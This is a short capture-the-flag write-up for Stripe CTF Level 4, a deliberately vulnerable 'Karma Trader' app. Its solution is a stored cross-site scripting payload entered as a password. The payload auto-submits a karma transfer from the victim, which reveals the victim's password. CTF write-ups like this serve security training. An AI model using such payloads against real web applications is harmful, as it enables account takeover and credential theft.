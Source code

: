 ## Level 4

The Karma Trader is the world's best way to reward people for good deeds: https://level04-1.stripe-ctf.com/user-xxxxxxxxxx. You can sign up for an account, and start transferring karma to people who you think are doing good in the world. In order to ensure you're transferring karma only to good people, transferring karma to a user will also reveal your password to him or her.

The very active user karma\_fountain has infinite karma, making it a ripe account to obtain (no one will notice a few extra karma trades here and there). The password for karma_fountain's account will give you access to Level 5.

You can obtain the full, runnable source for the Karma Trader from `git clone https://level04-1.stripe-ctf.com/user-xxxxxxxxxx/level04-code`. We've included the most important files below.

### Running

- Install bundler: 'gem install bundler'
- Run srv.rb: './srv.rb'
- Point your browser to localhost:4567

### Solution

  * Create a new user with name `user` and password:

  ```javascript 
    <script type="text/javascript">
      $(function() {
        $("input[name=to]").val("user");
        $("input[name=amount]").val(1);
        $("form:first").submit();
      });
    </script>
  ```
  * Send `1` karma to user `karma_fountain`

Originally posted at [https://stripe-ctf.com/levels/4](https://stripe-ctf.com/levels/4).
